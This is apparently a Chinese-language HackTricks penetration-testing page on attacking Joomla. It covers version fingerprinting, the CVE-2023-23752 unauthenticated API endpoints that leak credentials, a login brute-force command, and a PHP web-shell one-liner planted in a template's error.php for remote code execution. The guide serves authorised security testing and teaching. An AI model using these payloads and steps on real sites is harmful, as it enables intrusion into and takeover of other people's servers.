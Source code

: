 # Joomla

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

通过 8kSec 学院深化您在 **移动安全** 方面的专业知识。通过我们的自学课程掌握 iOS 和 Android 安全并获得认证：

{% embed url="https://academy.8ksec.io/" %}

### Joomla 统计

Joomla 收集一些匿名的 [使用统计数据](https://developer.joomla.org/about/stats.html)，例如 Joomla、PHP 和数据库版本的细分以及在 Joomla 安装中使用的服务器操作系统。这些数据可以通过他们的公共 [API](https://developer.joomla.org/about/stats/api.html) 查询。
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeration

### Discovery/Footprinting

* 检查 **meta**
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
* robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### 版本

* 在 **/administrator/manifests/files/joomla.xml** 中可以看到版本。
* 在 **/language/en-GB/en-GB.xml** 中可以获取 Joomla 的版本。
* 在 **plugins/system/cache/cache.xml** 中可以看到一个大致的版本。

### 自动
```bash
droopescan scan joomla --url http://joomla-site.local/
```
在[ **80,443 - Pentesting Web Methodology 是关于 CMS 扫描器的一个部分**](./#cms-scanners)，可以扫描 Joomla。

### API 未经身份验证的信息泄露：

版本从 4.0.0 到 4.2.7 存在未经身份验证的信息泄露漏洞 (CVE-2023-23752)，将泄露凭据和其他信息。

* 用户： `http://<host>/api/v1/users?public=true`
* 配置文件： `http://<host>/api/index.php/v1/config/application?public=true`

**MSF 模块**： `scanner/http/joomla_api_improper_access_checks` 或 ruby 脚本：[51334](https://www.exploit-db.com/exploits/51334)

### 暴力破解

您可以使用这个 [脚本](https://github.com/ajnik/joomla-bruteforce) 尝试进行登录暴力破解。
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

如果你成功获取了 **admin credentials**，你可以通过添加一段 **PHP code** 来 **RCE inside of it**。我们可以通过 **customizing** 一个 **template** 来实现。

1. **点击** 左下角的 **`Templates`** 在 `Configuration` 下拉出模板菜单。
2. **点击** 一个 **template** 名称。我们选择 **`protostar`** 在 `Template` 列标题下。这将带我们到 **`Templates: Customise`** 页面。
3. 最后，你可以点击一个页面以拉出 **page source**。我们选择 **`error.php`** 页面。我们将添加一个 **PHP one-liner 来获取代码执行**，如下所示：
1. **`system($_GET['cmd']);`**
4. **保存并关闭**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## From XSS to RCE

* [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Joomla 利用脚本，**将 XSS 升级为 RCE 或其他关键漏洞**。更多信息请查看 [**这篇文章**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html)。它支持 **Joomla 版本 5.X.X、4.X.X 和 3.X.X，并允许：**
* _**权限提升：**_ 在 Joomla 中创建用户。
* _**(RCE) 内置模板编辑：**_ 编辑 Joomla 中的内置模板。
* _**(Custom) 自定义利用：**_ 针对第三方 Joomla 插件的自定义利用。

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

通过 8kSec Academy 深入你的 **移动安全** 专业知识。通过我们的自学课程掌握 iOS 和 Android 安全并获得认证：

{% embed url="https://academy.8ksec.io/" %}


{% hint style="success" %}
学习并实践 AWS Hacking：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习并实践 GCP Hacking：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
